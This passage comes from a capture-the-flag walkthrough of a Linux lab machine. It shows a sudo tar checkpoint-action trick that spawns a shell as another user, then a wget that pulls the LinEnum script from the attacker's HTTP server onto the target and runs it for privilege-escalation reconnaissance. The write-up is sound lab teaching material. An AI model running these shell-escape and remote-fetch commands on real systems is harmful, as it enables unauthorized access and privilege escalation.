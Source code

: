 As can be seen above, we have the right to run the binary _/bin/tar_ with _onuma_’s privileges. Visit [gotfobins](https://gtfobins.github.io/gtfobins/tar/#sudo) website to see if we can spin up a shell using the tar command.

![](https://miro.medium.com/max/828/1*PNorEB7LVRHjI-uPEbfsqg.png)

Perfect! Run the following command to get a shell running with _onuma_’s privileges.

```text
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Grab the _user.txt_ flag.

![](https://miro.medium.com/max/655/1*jUr2sHd5ryedFhHasAoI5w.png)

To view the _root.txt_ flag, we need to escalate our privileges to root.

Let’s transfer the _LinEnum_ script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the _/tmp_ directory where we have write privileges and download the _LinEnum_ script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back the following result.

```text
[-] Systemd timers:
NEXT                         LEFT          LAST                         PASSED      UNIT                         ACTIVATES
Fri 2020-01-17 21:46:48 EST  59s left      Fri 2020-01-17 21:41:48 EST  4min 0s ago backuperer.timer             backuperer.service
Fri 2020-01-17 23:20:44 EST  1h 34min left Fri 2020-01-17 15:01:45 EST  6h ago      apt-daily.timer              apt-daily.service
Sat 2020-01-18 06:20:57 EST  8h left       Fri 2020-01-17 06:18:35 EST  15h ago     apt-daily-upgrade.timer      apt-daily-upgrade.service
Sat 2020-01-18 21:45:29 EST  23h left      Fri 2020-01-17 21:45:29 EST  20s ago     systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
```

